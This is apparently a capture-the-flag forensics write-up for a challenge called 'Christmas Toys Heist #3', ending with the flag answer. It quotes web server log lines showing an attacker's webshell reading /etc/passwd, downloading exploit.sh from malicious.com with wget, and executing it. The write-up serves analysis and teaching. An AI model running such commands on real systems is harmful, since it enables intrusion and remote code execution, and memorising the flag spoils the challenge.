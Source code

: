 ```
 Christmas Toys Heist #3
100

What is the name of the file used by the attacker to gain access to the server?

Flag format: CMCTF{filename}

Author: t4f3

```
on website.log file we found those line:
```
192.168.1.100 - - [20/Dec/2024:00:01:42 +0100] "POST /uploads/shell.php?cmd=cat+/etc/passwd HTTP/1.1" 200 2345
192.168.1.100 - - [20/Dec/2024:00:01:44 +0100] "POST /uploads/shell.php?cmd=wget+http://malicious.com/exploit.sh HTTP/1.1" 200 345
192.168.1.100 - - [20/Dec/2024:00:01:46 +0100] "POST /uploads/shell.php?cmd=chmod+%2Bx+exploit.sh HTTP/1.1" 200 123
192.168.1.100 - - [20/Dec/2024:00:01:48 +0100] "POST /uploads/shell.php?cmd=./exploit.sh HTTP/1.1" 200 456
```
that suggest the attacker, through the webshell, download exploit.sh on the server and run it to gain access to the server

# flag : CMCTF{exploit.sh}
